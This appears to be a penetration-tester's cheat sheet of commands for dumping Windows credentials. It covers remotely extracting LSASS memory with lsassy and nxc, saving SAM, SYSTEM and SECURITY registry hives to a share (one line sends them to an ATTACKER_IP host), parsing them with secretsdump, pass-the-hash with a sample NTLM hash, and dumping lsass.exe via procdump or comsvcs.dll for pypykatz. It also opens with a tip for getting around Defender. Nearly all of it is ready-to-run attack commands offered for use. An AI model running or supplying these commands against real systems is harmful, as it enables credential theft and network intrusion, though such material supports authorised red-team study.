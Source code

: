 <pre class="language-bash" data-overflow="wrap" data-full-width="true"><code class="lang-bash">#### Dump it even if Defender removes it > use quarantine encrypted file to decrypt it with old leaked keys
https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass
https://raw.githubusercontent.com/malmoeb/DFIR/refs/heads/master/quarantine.py


nxc smb $IP -u USER -p pass --loggedon-users
nxc &#x3C;protocol> &#x3C;target(s)> -u Administrator -p 'P@ssw0rd' -M lsassy

reg.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SYSTEM' -o '\\192.168.56.1\share'
# backup all SAM, SYSTEM and SECURITY hives at once
reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
secretsdump -security SECURITY.save -system SYSTEM.save LOCAL
<strong>
</strong><strong>cme ... (--local-auth) --lsa
</strong>
# lsassy - Extract credentials from lsass remotely
https://github.com/Hackndo/lsassy
lsassy -u $USER -H $NTLM_HASH $IP
lsassy -d hackn.lab -u pixis -p P4ssw0rd 192.168.1.0

# PTH attack using lsassy to dump LSASS process 
https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/
lsassy -u administrator -H 3542d79d5d17bc9d3014d4d56b5e1050 172.16.1.100

# LSASS manual way (Extract hashes without using Mimikatz!)
https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf
https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/
    Dump the hashes using pypykatz abuse lsass.exe
    (note: the shell you're in must have administrative wrights)
# BEST WAY
	procdump.exe -ma lsass.exe lsass.dmp #Windows target
        pypykatz lsa minidump lsass.dmp  #attacking machine
# ALTERNATIVE
    First get the lsass process Id w/ Powershell
    get-process lsass
    (use native dlls and lsass.exe PID to generate a .dmp file)
    C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump C:\Users\administrator.xor\Desktop\lsass.dmp full
    (now download it to your kali vm and use pypykatz)(make sure the file stay the same , sometime they get corrupt)
</code></pre>
